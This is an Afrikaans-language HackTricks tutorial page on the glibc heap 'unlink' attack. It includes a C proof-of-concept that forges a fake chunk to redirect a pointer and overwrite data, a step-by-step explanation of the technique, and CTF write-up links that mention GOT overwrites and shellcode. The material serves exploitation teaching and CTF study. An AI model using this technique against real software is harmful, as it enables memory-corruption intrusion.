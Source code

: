 # Unlink Aanval

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

Toe hierdie aanval ontdek is, het dit meestal 'n WWW (Write What Where) toegelaat, maar sommige **kontroles is bygevoeg** wat die nuwe weergawe van die aanval interessanter en meer kompleks en **nutteloos** maak.

### Kode Voorbeeld:

<details>

<summary>Kode</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Aanval werk nie as tcaches gebruik word nie (na 2.26)

### Doel

Hierdie aanval maak dit moontlik om **'n aanwyser na 'n blok te verander om 3 adresse voor homself te wys**. As hierdie nuwe ligging (omgewing waar die aanwyser geleë was) interessante dinge bevat, soos ander beheerbare toekenning / stapel..., is dit moontlik om hulle te lees/oor te skryf om 'n groter skade te veroorsaak.

* As hierdie aanwyser in die stapel geleë was, omdat dit nou 3 adresse voor homself wys en die gebruiker dit moontlik kan lees en wysig, sal dit moontlik wees om sensitiewe inligting uit die stapel te lek of selfs die terugkeeradres (miskien) te wysig sonder om die kanarie aan te raak
* In CTF-voorbeelde is hierdie aanwyser geleë in 'n reeks aanwysers na ander toekenning, daarom, deur dit 3 adresse voor te maak en dit te kan lees en skryf, is dit moontlik om die ander aanwysers na ander adresse te laat wys.\
Aangesien die gebruiker moontlik ook die ander toekenning kan lees/skryf, kan hy inligting lek of nuwe adresse in willekeurige ligginge oorskryf (soos in die GOT).

### Vereistes

* Sekere beheer in 'n geheue (bv. stapel) om 'n paar blokke te skep wat waardes aan 'n paar van die eienskappe gee.
* Stapel lek om die aanwysers van die vals blok in te stel.

### Aanval

* Daar is 'n paar blokke (blok1 en blok2)
* Die aanvaller beheer die inhoud van blok1 en die koppe van blok2.
* In blok1 skep die aanvaller die struktuur van 'n vals blok:
* Om beskermings te omseil, maak hy seker dat die veld `grootte` korrek is om die fout te vermy: `corrupted size vs. prev_size while consolidating`
* en die velde `fd` en `bk` van die vals blok wys na waar blok1 se aanwyser gestoor word met 'n verskuiwings van -3 en -2 onderskeidelik sodat `vals_blok->fd->bk` en `vals_blok->bk->fd` na 'n posisie in die geheue (stapel) wys waar die werklike blok1-adres geleë is:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Die koppe van blok2 word gewysig om aan te dui dat die vorige blok nie gebruik word nie en dat die grootte die grootte van die vals blok bevat.
* Wanneer die tweede blok vrygelaat word, gebeur hierdie vals blok wat ontkoppel:
* `vals_blok->fd->bk` = `vals_blok->bk`
* `vals_blok->bk->fd` = `vals_blok->fd`
* Voorheen is daar gemaak dat `vals_blok->fd->bk` en `vals_blok->bk->fd` na dieselfde plek wys (die ligging in die stapel waar `blok1` gestoor was, sodat dit 'n geldige gekoppelde lys was). Aangesien **beide na dieselfde ligging wys** sal slegs die laaste een (`vals_blok->bk->fd = vals_blok->fd`) **effek** hê.
* Dit sal **die aanwyser na blok1 in die stapel oorskryf na die adres (of bytes) wat 3 adresse voor in die stapel gestoor is**.
* Daarom, as 'n aanvaller die inhoud van blok1 weer kan beheer, sal hy in staat wees om **binne die stapel te skryf** en moontlik die terugkeeradres oorskryf deur die kanarie te vermy en die waardes en punte van plaaslike veranderlikes te wysig. Selfs deur weer die adres van blok1 wat in die stapel gestoor is na 'n ander ligging te wys waar as die aanvaller weer die inhoud van blok1 kan beheer, sal hy oral kan skryf.
* Let daarop dat dit moontlik was omdat die **adresse in die stapel gestoor is**. Die risiko en uitbuiting kan afhang van **waar die adresse na die vals blok gestoor word**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Verwysings

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Alhoewel dit vreemd sou wees om 'n ontkoppelingsaanval selfs in 'n CTF te vind, hier is 'n paar skrywes waar hierdie aanval gebruik is:
* CTF-voorbeeld: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* In hierdie voorbeeld is daar in plaas van die stapel 'n reeks malloc'ed adresse. Die ontkoppelingsaanval word uitgevoer om 'n blok hier toe te ken, dus om die aanwysers van die reeks malloc'ed adresse te beheer. Dan is daar 'n ander funksionaliteit wat dit moontlik maak om die inhoud van blokke in hierdie adresse te wysig, wat dit moontlik maak om adresse na die GOT te wys, funksieadresse te wysig om lekke en RCE te kry.
* 'n Ander CTF-voorbeeld: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Net soos in die vorige voorbeeld is daar 'n reeks adresse van toekenning. Dit is moontlik om 'n ontkoppelingsaanval uit te voer om die adres na die eerste toekenning 'n paar posisies voor die begin van die reeks te maak en dan hierdie toekenning in die nuwe posisie te oorskryf. Daarom is dit moontlik om aanwysers van ander toekenning te oorskryf om na die GOT van atoi te wys, dit te druk om 'n libc-lek te kry, en dan atoi GOT met die adres na 'n een gadget te oorskryf.
* CTF-voorbeeld met aangepaste malloc- en vryfunksies wat 'n kwesbaarheid misbruik wat baie soortgelyk is aan die ontkoppelingsaanval: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Daar is 'n oorvloei wat dit moontlik maak om die FD- en BK-aanwysers van aangepaste malloc te beheer wat (aangepas) vrygestel sal word. Verder het die heap die uitvoeringsbit, sodat dit moontlik is om 'n heap-adres te lek en 'n funksie van die GOT na 'n heapblok met 'n skelkode te wys om uit te voer.

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
